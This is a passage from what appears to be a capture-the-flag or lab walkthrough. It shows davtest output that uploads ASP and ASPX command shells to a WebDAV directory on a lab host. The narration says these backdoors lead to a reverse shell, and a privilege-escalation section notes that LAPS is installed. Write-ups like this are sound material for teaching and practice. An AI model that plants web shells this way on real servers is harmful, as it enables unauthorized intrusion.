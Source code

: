 ```
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.html
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.aspx
Executes: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.asp
Executes: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.txt
Executes: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.html
Executes: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.aspx
PUT Shell: http://192.168.197.122/DavTestDir_YuAxJmlk/YuAxJmlk_aspx_cmd.aspx
PUT Shell: http://192.168.197.122/DavTestDir_YuAxJmlk/YuAxJmlk_asp_cmd.asp
PUT Shell: http://192.168.197.122/DavTestDir_YuAxJmlk/YuAxJmlk_aspx_cmd.aspx
```

`davtest` would place a few backdoors for us, and we can use that to execute commands on the machine:

<figure><img src="../../../.gitbook/assets/image (3791).png" alt=""><figcaption></figcaption></figure>

Then, we can easily get a reverse shell as this user.&#x20;

<figure><img src="../../../.gitbook/assets/image (1456).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### LAPS-> Administrator Creds

On the machine, LAPS is installed.&#x20;

```
 Directory of C:\Program Files

02/16/2021  11:27 PM    <DIR>          .
02/16/2021  11:27 PM    <DIR>          ..
11/04/2020  05:08 AM    <DIR>          Common Files
11/03/2020  09:34 PM    <DIR>          internet explorer
11/03/2020  10:59 PM    <DIR>          LAPS
11/03/2020  10:37 PM    <DIR>          MSBuild
11/03/2020  10:37 PM    <DIR>          Reference Assemblies
02/16/2021  11:27 PM    <DIR>          VMware
12/08/2020  08:22 PM    <DIR>          Windows Defender
12/08/2020  08:22 PM    <DIR>          Windows Defender Advanced Threat Protection
09/15/2018  12:19 AM    <DIR>          Windows Mail
11/03/2020  09:34 PM    <DIR>          Windows Media Player
09/15/2018  12:19 AM    <DIR>          Windows Multimedia Platform
09/15/2018  12:28 AM    <DIR>          windows nt
11/03/2020  09:34 PM    <DIR>          Windows Photo Viewer
09/15/2018  12:19 AM    <DIR>          Windows Portable Devices
09/15/2018  12:19 AM    <DIR>          Windows Security
09/15/2018  12:19 AM    <DIR>          WindowsPowerShell
```